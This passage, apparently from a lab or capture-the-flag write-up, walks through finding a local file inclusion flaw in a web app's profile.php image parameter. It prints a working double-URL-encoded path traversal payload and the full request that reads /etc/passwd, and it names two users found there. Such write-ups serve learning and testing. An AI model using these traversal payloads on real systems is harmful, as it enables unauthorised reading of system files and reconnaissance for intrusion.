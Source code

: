 ![7](/images/include/7profilephp.jpg)

```
http://10.10.169.164:50000/profile.php?img=profile.png
```

I suspected a possible **LFI vulnerability** in this parameter. To test it, I began injecting various traversal sequences.

After trial and error, I found that the application accepted deeply nested traversal patterns double-encoded using URL encoding (%2F for /). The working payload looked like this:

```
....%2F%2F....%2F%2F....%2F%2F....%2F%2F....%2F%2F....%2F%2F....%2F%2F....%2F%2Fetc%2Fpasswd
```

The full request became:

```
http://10.10.169.164:50000/profile.php?img=....%2F%2F....%2F%2F....%2F%2F....%2F%2F....%2F%2F....%2F%2F....%2F%2F....%2F%2Fetc%2Fpasswd

```
This successfully returned the contents of `/etc/passwd`, confirming the LFI.

From the output, I identified two valid system users `joshua` and `charles`:

![8](/images/include/8lfiwork.jpg)
